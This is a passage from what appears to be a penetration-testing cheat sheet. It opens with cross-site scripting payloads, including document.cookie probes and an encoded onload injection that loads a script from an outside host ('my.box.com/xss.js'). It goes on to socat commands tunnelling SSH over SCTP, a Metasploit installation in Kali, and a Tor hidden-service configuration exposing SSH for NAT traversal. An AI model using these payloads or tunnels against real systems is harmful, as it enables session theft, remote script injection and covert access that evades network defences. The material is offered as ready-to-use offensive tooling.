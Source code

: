 ```
"><s"%2b"cript>alert(document.cookie)</script>
%22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)'%3E
<img src=asdf onerror=alert(document.cookie)>
```
### SSH Over SCTP (With Socat)

```
# on remote server
# assuming you want the SCTP socket to listen on port 80/SCTP and sshd is on 22/TCP
$ socat SCTP-LISTEN:80,fork TCP:localhost:22

# localhost
# replace SERVER_IP with IP of listening server, and 80 with whatever port the SCTP listener is on :)
$ socat TCP-LISTEN:1337,fork SCTP:SERVER_IP:80

# create socks proxy
# replace username and -p port value as needed...
$ ssh -lusername localhost -D 8080 -p 1337
```
### Install Metasploit Community Edition in Kali 2.0

```
# github urls
https://github.com/rapid7/metasploit-framework/wiki/Downloads-by-Version

wget http://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run && chmod
+x metasploit-latest-linux-x64-installer.run && ./metasploit-latest-linux-x64-installer.run

# create user
$ /opt/metasploit/createuser
[*] Please enter a username: root
[*] Creating user 'root' with password 'LsRRV[I^5' ...

# activate your metasploit license
https://localhost:3790

# update metasploite
$ /opt/metasploit/app/msfupdate

# use msfconsole
$ /opt/metasploit/app/msfconsole
```
### Tor Nat Traversal

```
# install to server
$ apt-get install tor torsocks

# bind ssh to tor service port 80
# /etc/tor/torrc
SocksPolicy accept 127.0.0.1
SocksPolicy accept 192.168.0.0/16
Log notice file /var/log/tor/notices.log
RunAsDaemon 1
HiddenServiceDir /var/lib/tor/ssh_hidden_service/
HiddenServicePort 80 127.0.0.1:22
PublishServerDescriptor 0
$ /etc/init.d/tor start
$ cat /var/lib/tor/ssh_hidden_service/hostname
3l5zstvt1zk5jhl662.onion
```